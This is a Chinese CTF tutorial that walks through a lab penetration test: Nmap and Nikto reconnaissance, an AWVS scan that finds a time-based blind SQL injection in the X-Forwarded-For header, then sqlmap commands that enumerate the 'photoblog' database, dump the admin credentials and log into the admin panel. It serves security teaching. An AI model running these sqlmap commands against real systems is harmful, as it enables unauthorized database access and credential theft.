# CTF教程：P15：SQL注入(X-Forwarded-For) 🚩

## 概述
在本节课中，我们将学习SQL注入漏洞，特别是如何利用HTTP请求头中的`X-Forwarded-For`字段进行注入攻击。我们将从信息收集开始，逐步演示如何发现漏洞、利用工具进行自动化注入，最终获取后台管理员权限。

---

## SQL注入漏洞介绍
上一节我们介绍了CTF比赛的基本概念，本节中我们来看看SQL注入。


SQL注入漏洞是指攻击者通过构建特殊的输入作为参数传入Web应用程序。Web应用程序执行了这些传入的参数，导致执行了预设之外的SQL语句，从而使非法数据侵入系统。



需要强调的是，**任何用户可以输入的位置都可能存在注入点**。例如：
*   URL中的参数（如以`GET`方式提交的`id`参数）。
*   HTTP报文中的各个字段。

攻击者可以在这些位置构造恶意的SQL语句并提交给应用程序，从而完成注入攻击。

---

## 实验环境搭建
在开始实战前，我们需要了解实验环境。

*   **攻击机 (Kali Linux)**：IP地址为 `192.168.1.104`。
*   **靶机**：IP地址为 `192.168.1.105`。



本节课的目标是挖掘靶机Web应用的漏洞，最终获得系统后台的登录权限。

---

## 第一步：信息探测
拿到靶机IP地址后，我们首先需要探测其开放的服务和系统信息。我们使用`Nmap`工具进行扫描。

以下是使用Nmap进行扫描的命令示例：
```bash
nmap -sS -sV 192.168.1.105
```
*   `-sS`: 进行TCP SYN扫描。
*   `-sV`: 探测服务版本。

为了获取更全面的信息，我们可以使用更强大的扫描选项：
```bash
nmap -T4 -A -v 192.168.1.105
```
*   `-T4`: 指定扫描速度（更快）。
*   `-A`: 启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`: 显示详细输出。





扫描结果显示，靶机只开放了**80端口**，运行着**Nginx服务器**和**PHP**。



---



## 第二步：Web敏感信息探测
发现HTTP服务后，我们需要探测其敏感目录或文件。这里使用`nikto`工具。

以下是使用nikto扫描的命令：
```bash
nikto -host http://192.168.1.105
```
扫描结果中，我们发现了一个重要的路径：**`/admin/login.php`**，即管理员登录界面。

访问该登录页面后，我们尝试了常见弱口令（如`admin/admin`, `admin/123456`），但均未成功。因此，我们需要寻找其他漏洞进行突破。

---



## 第三步：使用AWVS进行漏洞扫描
放弃弱口令猜测后，我们使用专业的Web漏洞扫描器**AWVS (Acunetix)** 来发现潜在的安全漏洞。



AWVS功能强大，更新迅速，能有效检测各类Web漏洞。操作步骤如下：
1.  打开AWVS并登录。
2.  添加扫描目标（Target）：`192.168.1.105`。
3.  选择“Full Scan”（完全扫描）模式并开始扫描。



扫描过程中，AWVS提示了一个**高危漏洞**：在HTTP请求头的 **`X-Forwarded-For`** 字段存在**SQL盲注**漏洞。报告详情中给出了漏洞描述和攻击示例。

---

## 第四步：利用SQLMap进行自动化注入
发现SQL注入点后，我们使用自动化注入工具 **`sqlmap`** 来利用此漏洞。

根据AWVS的扫描结果，注入点在`X-Forwarded-For`请求头中。我们使用以下命令进行数据库名枚举：
```bash
sqlmap -u "http://192.168.1.105" --headers="X-Forwarded-For: *" --dbs --batch
```
*   `-u`: 指定目标URL。
*   `--headers`: 指定存在注入点的HTTP头，`*`代表注入位置。
*   `--dbs`: 枚举数据库。
*   `--batch`: 以非交互模式运行，自动选择默认选项。

命令执行后，`sqlmap`成功识别出注入类型为**基于时间的盲注**，并开始逐个字符地枚举数据库名。最终发现了两个数据库：`information_schema`（系统库）和 `photoblog`（用户库）。

---

## 第五步：深入探测与数据提取
我们选择用户数据库 `photoblog` 进行深入探测。

首先，枚举该数据库中的所有表：
```bash
sqlmap -u "http://192.168.1.105" --headers="X-Forwarded-For: *" -D photoblog --tables --batch
```
发现了 `users` 表，这很可能存放着后台登录凭证。



接着，枚举 `users` 表的字段：
```bash
sqlmap -u "http://192.168.1.105" --headers="X-Forwarded-For: *" -D photoblog -T users --columns --batch
```
字段枚举结果显示有 `login` 和 `password` 字段。

最后，提取这两个字段的数据：
```bash
sqlmap -u "http://192.168.1.105" --headers="X-Forwarded-For: *" -D photoblog -T users -C "login,password" --dump --batch
```
`sqlmap` 成功提取出数据：
*   `login`: **admin**
*   `password`: **P4SSW0RD** (此处为明文，实战中可能是哈希值，需进一步破解)

---

## 第六步：登录后台
获得凭证后，我们访问 `/admin/login.php`，使用用户名 `admin` 和密码 `P4SSW0RD` 进行登录。

登录成功！我们进入了系统后台，可以执行文件上传等管理操作，至此目标达成。

---

## 总结
本节课中我们一起学习了SQL注入攻击的完整流程：

1.  **信息收集**：使用Nmap、Nikto探测目标。
2.  **漏洞发现**：使用AWVS扫描器发现`X-Forwarded-For`头部的SQL盲注漏洞。
3.  **漏洞利用**：使用Sqlmap工具自动化地进行数据库枚举、表名和字段名猜解、数据提取。
4.  **获取权限**：利用获取到的管理员凭证成功登录系统后台。



核心要点在于：**SQL注入可能发生在任何用户可控的输入点**，包括URL参数、HTTP请求头、Cookie等。在CTF比赛或渗透测试中，合理利用自动化工具可以极大提高效率。